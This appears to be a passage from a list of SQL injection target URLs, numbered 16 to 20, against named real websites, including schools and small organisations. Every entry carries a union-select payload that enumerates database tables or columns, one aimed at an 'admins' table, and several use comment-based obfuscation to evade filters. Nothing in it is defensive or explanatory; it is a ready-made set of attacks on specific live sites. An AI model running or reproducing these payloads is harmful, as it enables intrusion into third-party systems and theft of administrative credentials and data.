 16. https://www.morrisberger.com/position.php?id=-2195%20union%20select%201,2,3,4,5,6,7,group_concat(table_name,%20%27%3Cbr%3E%27),9,10,11%20from%20information_schema.tables%20where%20table_schema=database()--

17. https://bennioncenter.org/programs/program.php?id=-117%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,group_concat(column_name,%20%27%3Cbr%3E%27),16,17%20from%20information_schema.columns%20where%20table_name=%27admins%27--+

18. http://www.boblangrish.com/bob%20langrish%20travel.php?id=-58%20/*!12345union*/%20/*!12345select*/%201,/*!12345table_name*/,3,4,5%20/*!12345from*/%20/*!12345information_schema*/./*!12345tables*/%20where%20table_schema=database()--

19. https://rajgad.edu.in/department.php?id=-4%20/*!12345union*/%20/*!12345select*/%201,/*!12345group_concat(table_name,%20%27%3Cbr%3E%27)*/,3,4,5,6,7,8,9,10,11%20/*!12345from*/%20/*!12345information_schema*/./*!12345tables*/%20where%20table_schema=database()--

20. https://www.rskcbseschool.in/academics.php?id=-11%27%20union%20select%201,2,3,group_concat(table_name,%20%27%3Cbr%3E%27),5%20from%20information_schema.tables%20where%20table_schema=database()--+&page=ASSESSMENT%20AND%20REPORTING